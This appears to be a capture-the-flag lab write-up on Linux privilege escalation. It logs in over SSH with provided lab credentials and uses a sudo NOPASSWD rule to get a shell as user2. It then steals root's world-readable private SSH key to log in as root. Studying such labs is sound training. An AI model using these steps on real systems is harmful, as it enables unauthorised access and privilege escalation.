 # FLag 1: 

 SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.


# Step 1

ssh into the user with leaked creadentials as so: 
``` bash 

ssh user1@94.237.56.194 -p 58386

password: password1

```

# Step 2

Attempt to switch users  with 

``` bash

sudo su user2
```

Output:

``` bash

[sudo] password for user1: 
Sorry, user user1 is not allowed to execute '/usr/bin/su user2' as root on ng-1398741-gettingstartedprivesc-jnfku-66cb6578c4-rk2rs.
```

Switching users was unsuccessfull

# Step 3

List commands available to user1 via 
``` bash

sudo -l

```

Output:
``` bash
Matching Defaults entries for user1 on ng-1398741-gettingstartedprivesc-jnfku-66cb6578c4-rk2rs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on ng-1398741-gettingstartedprivesc-jnfku-66cb6578c4-rk2rs:
    (user2 : user2) NOPASSWD: /bin/bash
```

The output above shows that as user1, we can open a bash shell as user2 with no required password.

# Step 3

launch bash shell as users2 from user1

```bash

user1@ng-1398741-gettingstartedprivesc-jnfku-66cb6578c4-rk2rs:~$ sudo -u user2 /bin/bash
```
I am instantly sent into user2 as seen in the prompt below:

```bash

user2@ng-1398741-gettingstartedprivesc-jnfku-66cb6578c4-rk2rs:/home/user1$ cd ..

```

# Step 3
naviagte to home directory and reveal flag 

```bash
user2@ng-1398741-gettingstartedprivesc-jnfku-66cb6578c4-rk2rs:~$ cat flag.txt 
```


# Flag 2

Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.

# Step 1
See if public ssh key is readable so we can ssh into root without a password. Using the '-l' flag with 'ls' gives us the long listing and displays permission of the file

```bash
user2@ng-1398741-gettingstartedprivesc-jnfku-66cb6578c4-rk2rs:/$ ls -l root/.ssh/id_rsa
```

Output:

```bash
-rw-r--r-- 1 root root 2602 Feb 12  2021 root/.ssh/id_rsa
```
The id_rsa file is readable 

# Step 3 
Copy content of this file onto host machine in a file called id_rsa.

ssh into root with following command

``` bash
ssh root@<ip address> -p port -i rsa_id
```

when i tried this, i was getting an error pretaining to the rsa_id file.

I then compared the word count for the rsa_id file on the target machine and on my machine to ensure I copied the full file. You must have the enitre contents of the file. This is everything between the '-----BEGIN RSA PRIVATE KEY-----' and '-----END RSA PRIVATE KEY-----'















